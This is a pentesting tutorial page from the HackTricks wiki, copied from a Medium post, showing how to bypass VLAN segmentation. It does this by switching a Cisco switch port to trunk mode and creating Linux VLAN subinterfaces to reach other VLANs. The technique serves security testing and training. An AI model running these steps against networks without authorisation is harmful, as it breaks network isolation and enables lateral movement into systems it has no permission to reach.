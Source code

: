 # Lateral VLAN Segmentation Bypass

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**This page was copied from** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)****

If you have access to a switch that you are directly connected to, you have the ability to bypass VLAN segmentation within the network. Simply switch the port to trunk mode (otherwise known as trunk), create virtual interfaces with the IDs of the target VLANs, and configure an IP address. You can try requesting the address dynamically (DHCP) or you can configure it statically. It depends on the case.

First you need to find out exactly which port you are connected to. This is done via CDP messages, or you can search the port by mask **include**.

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**If the CDP is suddenly disabled, you can try searching the port by our MAC address.**

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Before we switch to trunk mode, we need to list the existing VLANs and find out their identifiers. Then we will hang these identifiers on our interface to access VLANs. Thus, thanks to the trunk we can access any VLAN. By the way, the port we are connected to belongs to VLAN 10.

```
SW1# show vlan brief
```

<figure><img src="../../.gitbook/assets/image (178) (2).png" alt=""><figcaption></figcaption></figure>

**Here we go. Enter interface configuration mode and go into trunk mode.**

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

During the switch to trunk mode, connectivity is lost. But I will fix that.

<figure><img src="../../.gitbook/assets/image (70) (3).png" alt=""><figcaption></figcaption></figure>

Create virtual interfaces and “hang” VLAN ID on them, and then raise them.

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Now you need to request an address via DHCP. But if in your case this is not possible, you can set the address statically.

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

Example of configuring a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

To test the connection, I initiate ICMP requests to the default gateways **for VLANs 10, 20, 50, 60**

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

In the end, **I bypassed VLAN** segmentation and can get into any VLAN network, which unties my hands for the next steps

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
